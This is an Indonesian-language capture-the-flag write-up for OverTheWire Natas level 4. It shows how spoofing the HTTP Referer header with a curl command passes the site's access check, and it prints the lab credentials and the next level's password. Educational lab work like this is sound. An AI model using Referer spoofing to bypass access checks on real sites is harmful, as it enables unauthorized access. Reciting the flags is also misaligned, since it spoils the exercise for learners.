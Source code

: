 # Natas 4 → 5

## 🎯 Tujuan
Mendapatkan password untuk level 5 di **OverTheWire Natas**.

## 🔑 Kredensial
- Username: `natas4`
- Password: `QryZXc2e0zahULdHrtHxzyYkj59kUxLQ`
- URL: [http://natas4.natas.labs.overthewire.org](http://natas4.natas.labs.overthewire.org)

## 🛠️ Langkah
1. Saat membuka halaman Natas 4, muncul pesan:
→ Server mengecek **HTTP Referer header**.
2. Dari clue, server hanya menerima request jika **Referer berasal dari `http://natas5.natas.labs.overthewire.org/`**.
3. Gunakan `curl` dengan menambahkan header Referer:
```bash
curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ \
     -H "Referer: http://natas5.natas.labs.overthewire.org/" \
     http://natas4.natas.labs.overthewire.org/
## ✅ Flag / Password Level 5
`0n35PkggAPm2zbEpOU802c0x0Msn1ToK`
